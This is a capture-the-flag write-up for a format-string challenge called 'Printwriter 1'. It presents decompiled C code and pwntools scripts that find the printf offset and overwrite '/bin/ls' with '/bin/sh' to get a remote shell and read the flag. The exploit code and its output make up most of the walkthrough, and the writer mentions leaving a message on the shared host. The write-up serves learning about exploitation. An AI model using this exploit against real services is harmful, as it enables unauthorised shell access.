 ## Printwriter 1

> My wonderful app works both as an echo server and a file lister!
>
> Bet you can't hack it!`nc 35.240.143.82 4203`

Only the compiled `chal` file was given, after decompiling it with Ghidra, I get

```cpp
undefined8 main(void)
{
    int32_t iVar1;
    char *format;
    
    setup();
    while( true ) {
        fgets(&format, 0x70, _stdin);
        iVar1 = strncmp(&format, "quit", 4);
        if (iVar1 == 0) break;
        printf(&format);
    }
    system("/bin/ls");
    return 0;
}
```

As I can see, and `printf` has been used to print the output directly.

This challenge is in the format string attack category, which I can verify with a simple `%x`

```
$ nc 35.240.143.82 4203
%x
402004
%s
quit
```

### pwntools

I can use pwntools to quickly create our format string payload

#### offset

I first have to find the offset which can be easily done with

```python
from pwn import *

conn = remote("35.240.143.82", 4203)
context.clear(arch='amd64')


def send_payload(p):
    conn.wait(1)
    conn.sendline(p)
    return conn.recv()


print("offset =", FmtStr(execute_fmt=send_payload).offset)
```

```
[x] Opening connection to 35.240.143.82 on port 4203
[x] Opening connection to 35.240.143.82 on port 4203: Trying 35.240.143.82
[+] Opening connection to 35.240.143.82 on port 4203: Done
[*] Found format string offset: 6
offset = 6
[*] Closed connection to 35.240.143.82 port 4203
```

#### what attack to use

In the decompiler, I noticed how `/bin/ls/` is located at `0x00404058`

 ![image-20211221173130465](image-20211221173130465.png)

If I edit `/bin/ls/` into `/bin/sh`, as they have same amount of characters, I can gain remote shell access.

Hence I will be using `fmtstr_payload` from pwntools

#### payload

```python
from pwn import *

conn = remote("35.240.143.82", 4203)

context.clear(arch='amd64')
payload = fmtstr_payload(0x6, {0x404058: b'/bin/sh'}, write_size='short')
conn.wait(1)
print("sending" + str(payload))
conn.sendline(payload)
print(conn.recv())
conn.sendline("quit")
conn.interactive()
```

We will be writing the string `/bin/sh` to address `0x404058` with offset `6`.

After sending the payload, `/bin/ls` will be changed to `/bin/sh`. This means that after I exit the loop with `quit`, it should give us shell access.

I will then switch to interactive to more easily take advantage of the shell.

```cpp
system("/bin/sh");
```

Indeed we gain remote shell access.

By running the command `ls`, I find `flag.txt`, and with `cat flag.txt`

```
cat flag.txt
flag{why_would_printf_be_able_to_write_memory????!!}
```

Flag obtained

> If you run the following you can find the message I left
>
> ```
> cd ~
> cd w
> cat README.txt
> Hello, I was here ;) ZY
> ```